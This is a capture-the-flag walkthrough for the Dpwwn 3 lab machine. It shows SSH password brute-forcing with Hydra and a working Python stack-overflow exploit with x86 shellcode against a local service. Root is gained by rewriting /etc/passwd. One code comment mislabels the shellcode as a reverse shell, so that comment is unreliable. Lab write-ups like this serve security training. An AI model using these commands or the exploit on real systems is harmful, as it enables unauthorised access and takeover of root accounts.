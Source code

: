 # Dpwwn 3

![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`

![](https://i.imgur.com/P8e8NGO.png)
Victim is `192.168.227.130`

`nmap -sS -sV -A -p- -oN NmapDpwwnLv3.txt 192.168.227.130`
![](https://i.imgur.com/eANkNU6.png)

We got snmp and ssh here, there might be some AC/PW on snmp service.
`snmpwalk -v1 -c public 192.168.227.130`
![](https://i.imgur.com/pt33GcF.png)

Take a try with `Hydra`, before use it, unzip the wordlist.
`gzip -d /usr/share/wordlists/rockyou.txt.gz`
`hydra -s 22 -v -l john -P /usr/share/wordlists/rockyou.txt 192.168.227.130 ssh`
![](https://i.imgur.com/Inty1IW.png)
Then we got the password: `john`

So, use this to `ssh` to the target.
![](https://i.imgur.com/HWuiMIw.png)

There's message in john's folder.
![](https://i.imgur.com/FfQE03V.png)

However, these binary execute by john, that might not be a PoE entry.
So let's see `sudo -l` to find the privilege command we can use, the message owner might givve us some help.
![](https://i.imgur.com/Bhoov2r.png)
![](https://i.imgur.com/vUYzEXd.png)

Okay, the privilge command we can use is to exec the `ss.sh` at `/hoem`, let's see what's in `/home/ss.sh`.
![](https://i.imgur.com/CW8nWBH.png)

Then this means that this shell script will exec `./smashthestack`, and you can use root to exec thsi script also exec `./smashthestack` as root.
![](https://i.imgur.com/MLfCHor.png)

According there's only simple `gdb` and cannot install `peda`, `checksec`, we need more helpful environment to check this binary.
Then let's download the binary and pwn the port 3210 to finish this challenge.
![](https://i.imgur.com/StpngYb.png)
I try to use `pyhton -m SimpleHTTPServer`, but there's firewall block me to get the file.

So the dumb way is to Base64 the file back.
![](https://i.imgur.com/eYITCcB.png)
```
import base64

with open("smashthestack", "rb") as f:
    encodedfile = base64.b64encode(f.read())
    print(encodedfile)
```
![](https://i.imgur.com/qrlmWoa.png)
```
import base64
fh = open("smashthestack", "wb")
with open("b64smashthestack", "rb") as f:
    fh.write(base64.b64decode(f.read()))
    fh.close()
```
![](https://i.imgur.com/veMWOad.png)
According to binary is in 32bit, turn on compatible framework: `dpkg –add-architecture i386`, update and install the 32 bit libraries: `apt install libc6:i386`
Then use your reversing and debugging tool to find the vul.

`ps -al`
![](https://i.imgur.com/Zarn52a.png)
`grep -E "stack|heap" /proc/{processID}/maps`
![](https://i.imgur.com/iZVZV5W.png)
![](https://i.imgur.com/SfoagXM.png)
Now we know that stack can be executed, but ASLR will change the position of the stack.

According no gadgets we need, PIE might not be a problem, but ASLR still did, there's no way to leak the position.
![](https://i.imgur.com/e5Wl4Bo.png)

![](https://i.imgur.com/1relFqy.png)
`0xdd8` - `0xb00` = `0x2d8` = 728, to cover to return address, that might be 732.

However, cuz to ASLR, stack base will change, and there's no clue to get the address.

Using `ctrl+z`, `bg`, `fg {number}`, to let gdb attach on binary.
![](https://i.imgur.com/RSrkjiN.png)

`disass main`, `disass vulncode` to see what binary doing.
![](https://i.imgur.com/u7wtDa8.png)

It open a listener socket on 3210, and call vulncode, which might not be a standard c library.
![](https://i.imgur.com/30y0F0v.png)

`strcpy()` here is vulnerable cuz to no check with lengh.
![](https://i.imgur.com/tt7aADP.png)

Using `b vulncode` to let process stop at the point which you want.

Use another terminal to ssh to the target, also in `john`.
After sending payload to 3210, back to `gdb` one.

![](https://i.imgur.com/8mbWKVD.png)

That might show something that your payload is not fit to memory status.

![](https://i.imgur.com/NVHlhWr.png)

Use `x/300x $esp` to check the stack.

We see junk `A`: `0x41`, retaddress we predicted, `NOP`: `0x90` and shellcode.

Most important address is the section between return address to shellcode, `NOP` section. 

Our return address should point in this section or exploit might not work.

![](https://i.imgur.com/rAKnAEM.png)

As you see, `0xbfff580` is following with part of shellcode and `0x00`, these might not work.

![](https://i.imgur.com/Be5Tcs7.png)
Whole payload should not bigger than `0x400`(which being passed as premeter to `read()` in `main()`) which means 1024.

As I mentioned before, stack allocated in 732 bytes, according to `read()` function, there's only 1024 bytes, `NOP` & shellcode can only limited in 292 bytes.

After several test, I found my target machine local memory stack location after return address is `0xbffff500` with john.

As script execute binary, this address might be more higher, just brutalforce it and optimized `NOP` section, whenever return address hit on `NOP` section, `NOP` will be regarded as nothing and keep executing forward to get to the shellcode.

I use following payload as shellcode which will `chmod` the `/etc/passwd` for me to modified: http://shell-storm.org/shellcode/files/shellcode-812.php
```
import sys,socket

# Reverse shell for linux x86, lhost = 127.0.0.1, lport = 8000, encoding = x86/alpha_mixed, no conflictive characters
payload = ("\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64"
           "\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3"
           "\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77"
           "\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3"
           "\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80"
)
# shellcode 57 bytes

ip_ = '127.0.0.1'
port_ = 3210

# First get the stack address with gdb ("\x00\xf5\xff\xbf")
# then add some more running as root from the SH script ("\x00~80\xf5\xff\xbf")
jmp_stack = "\x80\xf5\xff\xbf"

nop = '\x90'
buff = '\x41'*732+jmp_stack+nop*50+payload # NOP can up to 234 bytes

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip_, port_))
s.send(buff)
s.close()
```

The return address should modified as address you overwrite after return address, it should locate in `NOP` section, then directly execute the shellcode.

So, your `NOP` section more bigger, shell code section more smaller, may help your trying to defeat the ASLR.

Now, let's generate the passwd to modified the `/etc/passwd`, cuz UID root cannot be empty password.

Use `openssl passwd -1`
![](https://i.imgur.com/Rz9zlbF.png)

Then add new use in the `/etc/passwd`
![](https://i.imgur.com/NDvNel3.png)

With `su - r00t` we can switch to new account which has root privilege.
![](https://i.imgur.com/7zsQ3a2.png)

Go to `/root` and `cat` the flag.
![](https://i.imgur.com/ig7vFGO.png)

Actually, as I login as `r00t`, which is root privilege, `NOP` section in stack change because to ASLR.(I rebooted the machine)
![](https://i.imgur.com/goJNzeS.png)

Keep trying with optimized `NOP` section.